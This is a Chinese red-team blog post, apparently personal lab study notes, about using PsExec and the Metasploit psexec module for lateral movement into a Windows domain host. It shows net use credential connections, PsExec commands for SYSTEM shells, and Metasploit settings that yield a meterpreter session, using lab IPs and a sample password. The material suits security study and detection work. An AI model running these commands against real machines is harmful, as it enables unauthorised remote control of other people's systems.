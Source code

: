 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/XrZ5mKII\_aJe0OihDuUpdw)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **27** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

PsExec

PsExec 主要用于大批量 Windows 主机的维护，在域环境下效果尤其好。（因为 PsExec 是 Windows 提供的工具，所以杀毒软件将其列入白名单中）

因为使用 PsExec 通过命令行环境与目标机器建立连接，甚至控制目标机器，而不需要通过远程桌面（RDP）进行图形化的控制。

PsExec 包含在 PsTools 工具包中，下载地址：https://download.sysinternals.com/files/PSTools.zip

通过 PsExec 可以在远程目标主机上执行命令，也可以将管理员权限提升到 System 权限以运行指定的程序。

PsExec 的基本原理是：通过管道在远程目标主机上创建一个 psexec 服务，并在本地磁盘中生成一个名为”PSEXESVC“的二进制文件，然后通过 psexec 服务运行命令，运行结束后删除服务。

**PsExec 的使用**

**PsExec 的使用**

* * *

首先，需要获取目标操作系统的交互式 Shell。在建立了 ipc$ 的情况下：

```
net use \\\\192.168.3.21 /u:god\\administrator Admin12345
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1J26P4D1JQicSUueLPjo6khiconuCqRQic5uibs8Cab8gUmHT9fQ3CSwGpVQ/640?wx_fmt=png)  

执行如下命令，获取 System 权限的 Shell：

```
PsExec.exe -accepteula \\\\192.168.3.21 -s cmd.exe

# -accepteula  第一次运行 PsExec 会弹出确认框，使用该参数就不会弹出确认框
# -s      以System权限运行远程进程，获得一个System权限的交互式Shell，如果不用这个参数，那么会获得一个administrator权限的shell
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JBkAhvH8LQdScIPxT4ibuCLPtEpPr2vKnbNh2XKIPgm2vLxSjdscsjyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JhR0zx6uAl3Aicr73tBnBkybxXJZOGEDibVE6pap9uu4ziaqN93XoIzjTw/640?wx_fmt=png)

获得一个 administrator 权限的 shell：  

```
PsExec.exe -accepteula \\\\192.168.3.21 cmd.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1Jc2fDXAW2rcvXygRot56R3u5E6tiapxJQVcc6zqWAZT4TJlcAxmEG2Gg/640?wx_fmt=png)

如果没有建立 ipc$，PsExec 有两个参数可以通过指定的账号和密码进行远程连接：

```
PsExec.exe \\\\192.168.3.21 -u god\\administrator -p Admin12345 cmd.exe

# -u  域\\用户名
# -p  密码
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JbCwsOZsl1DMKk5CialsobaAxKkUT7ibEiapc5Tsg5ULpVMawDF0hn9s4w/640?wx_fmt=png)

使用 PsExec 在远程计算机上执行命令进行回显：

```
PsExec.exe \\\\192.168.3.21 -u god\\administrator -p Admin12345 cmd /c "ipconfig"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1Jzt8acuebVBlYPrbYLYhngPeTboW5siaMkGFJkNMANszCHJ7LJUblFUA/640?wx_fmt=png)

* * *

**PsExec 的注意事项**

需要远程系统开启 admin$ 共享（默认是开启的），原理是基于 IPC$ 共享，目标需要开放 445 端口和 admin$ 共享

在使用 IPC 连接目标系统后，不需要输入账户和密码。

在使用 PsExec 执行远程命令时，会在目标系统中创建一个 psexec 的服务。命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，可以在攻击溯源时通过日志反推攻击流程。

使用 PsExec 可以直接获得 System 权限的交互式 Shell（前提目标是 administrator 权限的 shell）

在域环境测试时发现，非域用户无法利用内存中的票据使用 PsExec 功能，只能依靠账号和密码进行传递。

* * *

**Metasploit 使用 PsExec 模块**

查找有关 psexec 的模块：

```
search psexec
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JT5IKct1eEddC8yHjQicyumdhhp3lsIgueBgdopR7U9c804Y9DqpLfQg/640?wx_fmt=png)

有两个常用的模块：

```
exploit/windows/smb/psexec
exploit/windows/smb/psexec\_psh（Powershell 版本的 psexec）
```

使用模块：  

```
use exploit/windows/smb/psexec
set rhosts 192.168.2.25
set smbuser administrator
set smbpass Admin12345
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JxPpOCuEcB3388a42IMuoj19WHqVSsuFZNKia73fPIwcJ5YEJSdvjVvQ/640?wx_fmt=png)

运行 exploit ，运行脚本会获得一个 meterpreter：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1JaiauxriaibevAMNtCSfkq6huQnc7rymIxtc43j4AkkLWna150KETyJfBQ/640?wx_fmt=png)

输入 shell，会获得一个 system 权限的 shell：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJoqc3JzTnQecISVaWxvp1Jn8AiaVeXIXBs2OKQcCjPlwWTM8SsAMw94AeBvDwOgzO1BO1vHxgMnbg/640?wx_fmt=png)

psexec\_psh 模块和 psexec 模块的使用方法相同，二者的区别在于，通过 psexec\_psh 模块上传的 payload 是 powershell 版本的。

* * *

渗透攻击红队 发起了一个读者讨论 快来发表你的评论把！ 精选讨论内容

等着学习，一天进步一点 哈哈

参考文章：

https://zhuanlan.zhihu.com/p/228742108

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看